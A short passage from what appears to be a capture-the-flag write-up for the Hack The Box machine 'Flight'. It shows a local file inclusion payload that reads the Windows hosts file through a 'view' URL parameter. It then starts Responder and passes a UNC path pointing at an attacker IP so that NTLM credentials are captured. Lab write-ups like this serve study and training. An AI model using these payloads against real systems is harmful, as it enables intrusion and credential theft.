 ![screenshot](/assets/images/flight7.png)

Replace `\` with `/`

```sh
# modified payload
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```

![screenshot](/assets/images/flight8.png)

## Combine LFI with RFI
```sh
# start Responder
sudo responder -I tun0 -v

# Pass RFI payload to LFI vulnerable parameter 
http://school.flight.htb/index.php?view=//10.10.14.59/htb
```

![screenshot](/assets/images/flight9.png)
